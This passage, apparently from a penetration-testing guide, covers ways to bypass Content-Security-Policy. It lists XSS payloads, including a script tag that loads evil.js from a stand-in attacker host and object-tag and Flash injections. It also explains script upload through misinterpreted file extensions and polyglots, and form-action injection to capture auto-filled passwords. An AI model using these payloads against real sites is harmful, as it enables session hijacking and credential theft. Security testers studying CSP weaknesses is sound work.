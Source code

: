 Working payload:

```markup
"/>'><script src=https://attacker-website.com/evil.js></script>
"/>'><script src=data:text/javascript,alert(1337)></script>
```

### Lack of object-src and default-src

{% hint style="danger" %}
**It looks like this is not longer working**
{% endhint %}

```yaml
Content-Security-Policy: script-src 'self' ;
```

Working payloads:

```markup
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'>
<param name="AllowScriptAccess" value="always"></object>
```

### File Upload + 'self'

```yaml
Content-Security-Policy: script-src 'self';  object-src 'none' ; 
```

If you can upload a JS file you can bypass this CSP:

Working payload:

```markup
"/>'><script src="/uploads/picture.png.js"></script>
```

However, it's highly probable that the server is **validating the uploaded file** and will only allow you to **upload determined type of files**.

Moreover, even if you could upload a **JS code inside** a file using an extension accepted by the server (like: _script.png_) this won't be enough because some servers like apache server **select MIME type of the file based on the extension** and browsers like Chrome will **reject to execute Javascript** code inside something that should be an image. "Hopefully", there are mistakes. For example, from a CTF I learnt that **Apache doesn't know** the _**.wave**_ extension, therefore it doesn't serve it with a **MIME type like audio/\***.

From here, if you find a XSS and a file upload, and you manage to find a **misinterpreted extension**, you could try to upload a file with that extension and the Content of the script. Or, if the server is checking the correct format of the uploaded file, create a polyglot ([some polyglot examples here](https://github.com/Polydet/polyglot-database)).

### Form-action

If not possible to inject JS, you could still try to exfiltrate for example credentials **injecting a form action** (and maybe expecting password managers to auto-fill passwords). You can find an [**example in this report**](https://portswigger.net/research/stealing-passwords-from-infosec-mastodon-without-bypassing-csp). Also, notice that `default-src` does not cover form actions.
